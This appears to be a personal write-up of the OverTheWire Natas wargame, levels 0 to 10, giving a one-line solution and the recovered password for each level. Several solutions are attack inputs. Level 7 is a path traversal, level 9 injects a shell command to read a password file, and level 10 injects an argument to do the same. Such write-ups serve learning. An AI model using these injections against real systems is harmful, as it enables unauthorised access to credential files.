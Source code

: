 ```yaml
---
title: # Natas
date: 2021-11-16
---
```

# Natas

-   **natas0**: in comments (gtVrDuiDfck831PqWsLEZy5gyDz1clto)
-   **natas1**: in comments too (ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi)
-   **natas2**: /files/users.txt (sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14)
-   **natas3**: /robots.txt (Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)
-   **natas4**: Referrer header (iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq)
-   **natas5**: cookie loggedin (aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1)
-   **natas6**: includes/secret.inc (7z3hEENjQtflzgnT29q7wAvMNfZdh0i9)
-   **natas7**: ?page=../../../../etc/natas~webpass~/natas8 (DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe)
-   **natas8**: `echo 'echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));' | php -a` (W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl)
-   **natas9**: `;cat /etc/natas_webpass/natas10; ls` (nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu)
-   **natas10**: `-v test /etc/natas_webpass/natas11` (U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK)